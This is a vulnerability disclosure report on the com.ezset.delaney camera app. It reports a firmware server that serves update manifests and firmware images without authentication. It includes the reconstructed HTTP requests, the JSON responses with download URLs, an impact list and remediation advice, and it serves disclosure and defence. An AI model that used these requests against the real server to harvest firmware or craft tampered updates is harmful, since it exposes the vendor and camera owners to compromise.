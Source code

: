 # Vulnerability Report - com.ezset.delaney- Incorrect Access Control

**Product:** `com.ezset.delaney` 

**Vendor:** [Plug n Play Camera](https://delaneyhardware.com/)

**Version:** 1.2.0

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.ezset.delaney` , developed by **Plug n Play Camera**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTP requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `firmware_link` Field value in the `BuildConfig` method  and `Auto_upgrade_url_fermax` value in the `C2680CameraList` class provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003133626871](https://s2.loli.net/2024/10/03/d8cB1L5INzFCeHs.png)

   ![image-20241003133615735](https://s2.loli.net/2024/10/03/PEkH723lfOGj5y1.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://www.starvedia.com/AutoUpgrade/Httpversions.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: www.starvedia.com
   
   
   ```

   ```http
   GET http://www.starvedia.com/AutoUpgrade/HttpversionsFermax.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: www.starvedia.com
   
   
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 7219
   Accept-Ranges: bytes
   Content-Type: application/json
   Date: Thu, 03 Oct 2024 05:28:35 GMT
   Etag: "1c33-6149fe965e04e"
   Last-Modified: Wed, 27 Mar 2024 08:08:28 GMT
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16
   
   {
   "vendor":"starvidia",
   "products":
   [{
   "model":"IC502wp",
   "version":"030715",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC502wp-cloud-030715-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"3",
   "cfgUrl":"http://www.starvedia.com/AutoUpgrade/Config/gen_502wp_003.cfg"
   },
   {
   "model":"IC717w",
   "version":"030708",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC717w-cloud-030708-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"2",
   "cfgUrl":"http://www.starvedia.com/AutoUpgrade/Config/gen_717w_002.cfg"
   },
     ......
    
   ```

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 1918
   Accept-Ranges: bytes
   Content-Type: application/json
   Date: Thu, 03 Oct 2024 05:29:49 GMT
   Etag: "77e-60f06e786b1a5"
   Last-Modified: Tue, 16 Jan 2024 02:29:48 GMT
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16
   
   {"vendor":"Fermax",
   "products":[
   {"model":"IC731z",
   "version":"030724",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC731z-cloud-030724-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"0",
   "cfgUrl":"*"
   },
   {"model":"IC731zp",
   "version":"040120",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC731zp-cloud-040120-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"0",
   "cfgUrl":"*"
   },
     ......
   ```

   

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003133748210](https://s2.loli.net/2024/10/03/ki5XmrUpeTovKLg.png)
   
   In total, we successfully downloaded **46 firmware** by exploiting the vulnerability. 


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.